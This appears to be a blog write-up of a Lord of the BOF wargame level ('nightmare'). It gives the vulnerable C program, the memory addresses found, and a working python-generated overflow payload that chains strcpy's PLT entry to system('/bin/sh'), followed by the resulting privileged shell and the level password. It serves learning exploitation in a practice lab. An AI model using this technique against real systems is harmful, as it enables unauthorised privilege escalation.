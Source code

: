 ```yaml
---
layout: post
title:  "[LOB]Level18. nightmare"
subtitle:   "[LOB]succubus → nightmare"
categories: Write-up
tags:
- Wargame
- LOB(The Lord of Bufferoverflow)
- Write-up
---
```


## keyword : plt

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - nightmare
        - PLT
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <dumpcode.h>

main(int argc, char *argv[])
{
    char buffer[40];
    char *addr;

    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }

    // check address
    addr = (char *)&strcpy;
    if(memcmp(argv[1]+44, &addr, 4) != 0){
        printf("You must fall in love with strcpy()\n");
        exit(0);
    }

    // overflow!
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);

    // dangerous waterfall
    memset(buffer+40+8, 'A', 4);
}
```

![image-20180727182321698](http://eliez3r.synology.me/assets/img/writeup/lob/18.nightmare/image-20180727182321698.png)

strcpy = 0x8048410

system = 0x40058ae0

ebp-40 = 0xbffffaa0

"/bin/sh" = 0x400fbff9

ret+4 = 0xbffffad0

```sh
[succubus@localhost succubus]$ ./nightmare `python -c 'print "\xe0\x8a\x05\x40"+"A"*4+"\xf9\xbf\x0f\x40"+"A"*32+"\x10\x84\x04\x08"+"A"*4+"\xd0\xfa\xff\xbf"+"\xa0\xfa\xff\xbf"'`
�@AAAA�@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������
bash$ my-pass
euid = 518
beg for me
bash$ id
uid=517(succubus) gid=517(succubus) euid=518(nightmare) egid=518(nightmare) groups=517(succubus)
```



##### **nightmare / beg for me**


